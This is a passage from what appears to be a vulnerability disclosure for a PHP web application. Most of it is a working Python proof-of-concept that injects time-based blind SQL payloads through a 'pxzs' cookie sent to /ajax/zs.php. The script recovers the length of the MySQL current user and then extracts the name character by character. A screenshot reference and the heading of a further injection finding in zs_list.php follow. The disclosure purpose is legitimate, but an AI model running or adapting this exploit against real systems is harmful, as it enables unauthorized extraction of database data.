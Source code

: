 ```python
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding": "gzip, deflate",
               "Connection": "keep-alive",
               }
    cookies = {"bdshare_firstime":"", "PHPSESSID":"", "UserName":"", "PassWord":""}
    url = "http://%s/ajax/zs.php" % host
    #proxies = {"http":"http://127.0.0.1:8080"}
    proxies = ""
    rlen = 0

    print("Start\n")

    for i in range(1,100):
        pxzs = "(SELECT(1)FROM(SELECT(SLEEP((%d-length(user()))*1)))abcd)" %i
        cookies["pxzs"] = pxzs
        starttime = time.time()

        res = requests.get(url, headers=headers, cookies=cookies, proxies=proxies)
        if time.time() - starttime > 1:
            rlen = i - 1
            print("the length of current user is : %d\n" %rlen)
            break

    for j in range(1, rlen+1):
        for payload in payloads:
            char = ord(payload) + 1
            starttime = time.time()
            pxzs = "(SELECT(1)FROM(SELECT(SLEEP((%d-(select conv(hex(mid(user(),%d,1)),16,10)))*1)))abcd)" %(char, j)
            cookies["pxzs"] = pxzs
            res = requests.get(url, headers=headers, cookies=cookies, proxies=proxies)
            if time.time() - starttime > 1:
                result += payload
                print('current user is:', result)
                break
            else:
                pass
    print('\n[Finally] current user is %s' % result)

if __name__ == '__main__':
    host = '172.18.120.76'
    zs_sqli(host)    
```

got the mysql current user as following:

![image-20180915231147488](/Users/kunkun/Library/Application Support/typora-user-images/image-20180915231147488.png)

------

## 4. SQL Injection in zs/zs_list.php with parameter $px
